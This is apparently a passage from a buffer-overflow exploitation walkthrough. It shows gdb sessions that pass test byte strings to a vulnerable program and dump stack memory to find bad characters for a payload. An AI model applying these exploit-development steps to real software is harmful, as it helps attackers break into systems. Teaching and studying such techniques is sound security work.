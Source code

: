 ```sh 
(gdb) run $(python -c print'"\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"')
(gdb) x/254bx $ebp-0x808
0xffffcb90:	0x01	0x02	0x03	0x04	0x05	0x06	0x07	0x08
0xffffcb98:	0x0b	0x0c	0x0d	0x0e	0x0f	0x10	0x11	0x12
0xffffcba0:	0x13	0x14	0x15	0x16	0x17	0x18	0x19	0x1a
0xffffcba8:	0x1b	0x1c	0x1d	0x1e	0x1f	0x00	0x00	0x00
0xffffcbb0:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffcbb8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
```

Looks better but we are still missing `\0a` so lets also remove that from the testing list and add it to our bad character list. Lets see how the buffer looks after removing `\0a`
```sh 
(gdb) run $(python -c print'"\x01\x02\x03\x04\x05\x06\x07\x08\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"')
(gdb) x/254bx $ebp-0x808
0xffffcb90:	0x01	0x02	0x03	0x04	0x05	0x06	0x07	0x08
0xffffcb98:	0x0b	0x0c	0x0d	0x0e	0x0f	0x10	0x11	0x12
0xffffcba0:	0x13	0x14	0x15	0x16	0x17	0x18	0x19	0x1a
0xffffcba8:	0x1b	0x1c	0x1d	0x1e	0x1f	0x00	0x00	0x00
0xffffcbb0:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffcbb8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
```

Well it looks the same but now its correct until `\20`. Remember that we already removed `[\00\09\0a]`. Lets also remove `\20` and see what happens
```sh 
(gdb) run $(python -c print'"\x01\x02\x03\x04\x05\x06\x07\x08\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"')
(gdb) x/252bx $ebp-0x808
0xffffcba0:	0x01	0x02	0x03	0x04	0x05	0x06	0x07	0x08
0xffffcba8:	0x0b	0x0c	0x0d	0x0e	0x0f	0x10	0x11	0x12
0xffffcbb0:	0x13	0x14	0x15	0x16	0x17	0x18	0x19	0x1a
0xffffcbb8:	0x1b	0x1c	0x1d	0x1e	0x1f	0x21	0x22	0x23
0xffffcbc0:	0x24	0x25	0x26	0x27	0x28	0x29	0x2a	0x2b
0xffffcbc8:	0x2c	0x2d	0x2e	0x2f	0x30	0x31	0x32	0x33
```